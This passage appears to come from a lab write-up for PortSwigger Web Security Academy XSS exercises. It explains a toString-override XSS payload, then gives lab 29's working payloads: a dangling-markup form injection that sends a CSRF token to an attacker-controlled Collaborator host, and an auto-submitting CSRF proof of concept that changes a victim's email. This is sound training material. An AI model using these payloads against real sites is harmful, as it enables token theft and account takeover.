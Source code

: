 3. `toString=x,` 

Overwrites `toString` with our custom function `x`.

4. `window+'',` 

Forces the browser to evaluate `window` as a string, which in turn triggers `toString()`.  Since we overwrote `toString = x`, this ensures that our malicious function `x` runs.

5. `{'x':'`

Ends the `'}` to make sure the javascript is not broken. This is added to make sure we don't get any syntax errors.

When `window + ''` runs, the `toString()` function is triggered, which we had overwritten as function `x`, which throws an error and calls `alert()`.

### 29. Reflected XSS protected by very strict CSP, with dangling markup attack

Payloads that worked:

```html
"></form><form class="login-form" name="evil-form" action="https://BURPID.oastify.com/token" method="GET"><button class="button" type="submit">Click Me</button>
```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://LABID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil-user&#46;net" />
      <input type="hidden" name="csrf" value="OeyI3k22l5q7AQhX03Ath4sPWICXKQKr" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

```
https://LABID.web-security-academy.net/my-account?id=wiener&email=hello
```

Methodology and explanation:

We find that the reflection point is in the URL which can be seen by appending &email=hello. As we can see, hello got populated in the empty field.

![](/assets/images/XSS/Pasted%20image%2020250728023014.png)

We can now try to make a malicious form and a button within this to steal the CSRF token and send it to the target user.
